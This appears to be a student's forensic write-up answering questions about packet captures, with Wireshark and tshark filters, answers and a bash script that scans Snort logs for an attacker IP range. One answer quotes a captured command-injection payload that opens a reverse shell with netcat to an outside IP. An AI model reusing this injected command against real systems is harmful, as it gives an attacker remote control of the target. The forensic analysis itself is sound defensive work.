
### Q1.1
Filter: http.host == "www.pwned.se" && http.request.uri == "/skyblue/fr.jpg"
Answer: 217.195.49.146

### Q1.2
Filter: http.host == "www.pwned.se" && ip.addr == 217.195.49.146
Answer:  "name" = "test" | nc -e /bin/sh 217.195.49.146 63122; echo ""

### Q1.3

Tool used: exportar objetos

![](ANEXOS/Pasted%20image%2020250512191712.png)

![](ANEXOS/Pasted%20image%2020250512191800.png)

![](ANEXOS/Pasted%20image%2020250512191652.png)

### Q1.4
Filter: tshark -r snort.log.1426118407 -Y 'http.request.uri contains "cm0.php"' -T fields -e http.request.full_uri
Answer: list of commands

![](ANEXOS/Pasted%20image%2020250601202903.png)
### Q1.5

![](ANEXOS/Pasted%20image%2020250601202437.png)

Answer:
2015-03-11
2015-03-12
2015-03-13
2015-03-16
2015-03-19

Script usado:

```bash
#!/bin/bash

print_red() {
    echo -e "\033[31m$1\033[0m"
}

print_green() {
    echo -e "\033[32m$1\033[0m"
}

ctrl_c(){
  print_red "\n\n[!] Exiting...\n"
  exit 1
}

trap ctrl_c INT

# Base directory to search PCAP files
BASE_DIR="/home/javi/Escritorio/PCAPS"
IP_RANGE="217.195.49.0/24"

# Function to analyze one file
analyze_file() {
    local pcap_file="$1"

    if tshark -r "$pcap_file" -Y "ip.addr == $IP_RANGE" 2>/dev/null | grep -q .; then
        print_green "[+] Match found in: $pcap_file"
    fi
}

export -f analyze_file
export IP_RANGE
export -f print_green

# Run analysis in parallel using 5 processes
find "$BASE_DIR" -type f -name "snort.*" | xargs -n 1 -P 5 -I {} bash -c 'analyze_file "$@"' _ {}



```